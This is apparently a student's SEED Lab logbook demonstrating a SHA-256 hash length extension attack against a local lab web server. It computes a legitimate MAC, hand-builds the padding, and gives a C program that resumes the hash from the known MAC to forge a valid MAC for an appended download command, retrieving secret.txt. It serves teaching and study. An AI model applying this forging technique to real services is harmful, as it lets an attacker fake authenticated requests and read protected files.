 # Logbook #10

> Environment Setup:
>
> - Add `10.9.0.80  www.seedlab-hashlen.com` to /etc/hosts;
> - Run `docker-compose up` in LabSetup.

> Considere as seguintes notas, durante a resolução do mesmo:
> O objetivo geral deste SEED Lab é mostrar que é possível explorar uma fraqueza na autenticação para obter autenticações (MACs) de mensagens que não foram construidas de forma honesta. Para isto, vamos ter que seguir 3 passos, que seguem sensivelmente as tarefas do guião:
>
> 1. Obter (computar) um pedido autenticado honesto que lista os ficheiros de um servidor
> 2. Calcular o padding necessário para que o pedido anterior seja exatamente do tamanho de um bloco na função de hash
> 3. Executar a função de compressão de hash sobre este último pedido, de forma a conseguir uma autenticação do pedido original + padding + a mensagem que bem nos apetecer

## Task 1: Send Request to List Files

The following parameters will be used for the request:

- `uid`: 1001
- `key`: 123456
- `name`: GuilhermeMatos

1. Construct the key and message for the MAC calculation:

   ```
   123456:myname=GuilhermeMatos&uid=1001&lstcmd=1
   ```
2. Calculate the MAC for the message:

   ```bash
   $ echo -n "123456:myname=GuilhermeMatos&uid=1001&lstcmd=1" | sha256sum
   30639d3231b1702c2174fceaca50cdfafa895d98e47caf04d2759e53ab618750  -
   ```
3. Send the request to the server: http://www.seedlab-hashlen.com/?myname=GuilhermeMatos&uid=1001&lstcmd=1&mac=30639d3231b1702c2174fceaca50cdfafa895d98e47caf04d2759e53ab618750

   ```html
   <b>Yes, your MAC is valid</b>
   <h3>List Directory</h3>
   <ol>
     <li>secret.txt</li>
     <li>key.txt</li>
   </ol>
   ```

The same approach can be used to create a download request:

1. Construct the key and message for the MAC calculation:

   ```
   123456:myname=GuilhermeMatos&uid=1001&lstcmd=1&download=secret.txt
   ```
2. Calculate the MAC for the message:

   ```bash
   $ echo -n "123456:myname=GuilhermeMatos&uid=1001&lstcmd=1&download=secret.txt" | sha256sum
   8676ef4fba82819842c7124672c8780d8a934faf9a9495b5e157d43be97b7374  -
   ```
3. Send the request to the server: <http://www.seedlab-hashlen.com/?myname=GuilhermeMatos&uid=1001&lstcmd=1&download=secret.txt&mac=8676ef4fba82819842c7124672c8780d8a934faf9a9495b5e157d43be97b7374>

   ```html
   <b>Yes, your MAC is valid</b>
       <h3>List Directory</h3>
       <ol> 
           <li>secret.txt</li>
           <li>key.txt</li>
       </ol>
       <h3>File Content</h3>
           <p>TOP SECRET.</p>
           <p>DO NOT DISCLOSE.</p>
           <p></p>
   ```

It is worth noting that, as expected, the server will return an "Invalid MAC" error if, for example, the name is incorrect or the MAC is not valid. For example, the request http://www.seedlab-hashlen.com/?myname=INVALIDNAME&uid=1001&lstcmd=1&mac=30639d3231b1702c2174fceaca50cdfafa895d98e47caf04d2759e53ab618750 :

```html
<b>Sorry, your MAC is not valid</b>
```

## Task 2: Create Padding

Message: `myname=GuilhermeMatos&uid=1001&lstcmd=1` 

Key: `123456`

This message is 39 bytes long. Therefore, the padding length will be 64 – 46 = 18. This length in bits will be 46 \* 8 = 368, which is 0x170 in hexadecimal.

Since 2 bytes will be used for the padding length (\\x01\\x70) and another is reserved for the beginning of the message with value 0x80, it leaves us with 18 - 3 = 15 bytes left for zeroes.

Now we can build the padding:

> "123456:myname=GuilhermeMatos&uid=1001&lstcmd=1"
>
> "\\x80"
>
> "\\x00\\x00\\x00\\x00\\x00"
>
> "\\x00\\x00\\x00\\x00\\x00"
>
> "\\x00\\x00\\x00\\x00\\x00"
>
> "\\x01\\x70"

The message with padding will then be:

> myname=GuilhermeMatos&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%70

## Task 3: The Length Extension Attack

Let's remember the MAC we got from Task 1:

<http://www.seedlab-hashlen.com/?myname=GuilhermeMatos&uid=1001&lstcmd=1&mac=30639d3231b1702c2174fceaca50cdfafa895d98e47caf04d2759e53ab618750>

> 30639d3231b1702c2174fceaca50cdfafa895d98e47caf04d2759e53ab618750

---

Since we want to use the download command on the 'secret.txt' file, we need to use an URL on the format below:

```
http://www.seedlab-hashlen.com/?myname=<name>&uid=<uid>
&lstcmd=1<padding>&download=secret.txt&mac=<new-mac>
```

The difference from this URL to the previous one is that now, we need to append `&download=secret.txt` to the command. Therefore we need to generate a new MAC with the code below:

```C
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>

int main(int argc, const char *argv[]) {
    int i;
    unsigned char buffer[SHA256_DIGEST_LENGTH];
    SHA256_CTX c;
    SHA256_Init(&c);
    for(i=0; i<64; i++)
        SHA256_Update(&c, "*", 1);

    // MAC of the original message M (padded)
    c.h[0] = htole32(0x30639d32);
    c.h[1] = htole32(0x31b1702c);
    c.h[2] = htole32(0x2174fcea);
    c.h[3] = htole32(0xca50cdfa);
    c.h[4] = htole32(0xfa895d98);
    c.h[5] = htole32(0xe47caf04);
    c.h[6] = htole32(0xd2759e53);
    c.h[7] = htole32(0xab618750);

    // Append additional message
    SHA256_Update(&c, "&download=secret.txt", 20);
    SHA256_Final(buffer, &c);

    for(i = 0; i < 32; i++) {
        printf("%02x", buffer[i]);
    }
    printf("\n");
    return 0;
}
```

Compile this code with:

```bash
$ gcc length_ext.c -o length_ext -lcrypto
```

Executing `length_ext` will output our new MAC:

> eb1a7bf9cf98104d7289afe671e8eb5c3c536df7e0a7e6a8979e40225d4d5156

---

We now form the link:

http://www.seedlab-hashlen.com/?myname=GuilhermeMatos&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%70&download=secret.txt&mac=eb1a7bf9cf98104d7289afe671e8eb5c3c536df7e0a7e6a8979e40225d4d5156

And successfully get the contents of secret.txt:

```html
<b>Yes, your MAC is valid</b>
<h3>File Content</h3>
<p>TOP SECRET.</p>
<p>DO NOT DISCLOSE.</p>
<p></p>
```